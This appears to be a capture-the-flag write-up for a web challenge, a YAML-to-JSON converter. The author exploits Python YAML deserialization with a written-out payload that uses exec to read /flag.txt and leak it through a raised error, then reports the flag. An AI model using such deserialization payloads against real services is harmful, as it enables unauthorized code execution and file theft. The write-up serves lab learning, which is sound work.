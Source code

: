 Challenge:

![Challenge](images/1.challenge.PNG)

We are challenged with figuring out the real reason behind Y2K.

Based on the web page we arrive at, we have a Yaml to Json converter.  After doing some research, I found a deserialiation attack on [hacktricks](https://book.hacktricks.xyz/pentesting-web/deserialization/python-yaml-deserialization).  I attempted to read the file directly, which caused an access denied.  Ultimately, after trial and error, I found I was able to trick the system into giving me the flag when raising an error.

```
!!python/object/new:tuple  
- !!python/object/new:map  
  - !!python/name:exec  
  - [ 'raise ValueError(getattr(open("/flag\x2etxt"), "read")())' ]  
```

![Flag](images/2.flag.PNG)

Flag: ```flag{b20870a1955ac22377045e3b2dcb832a}```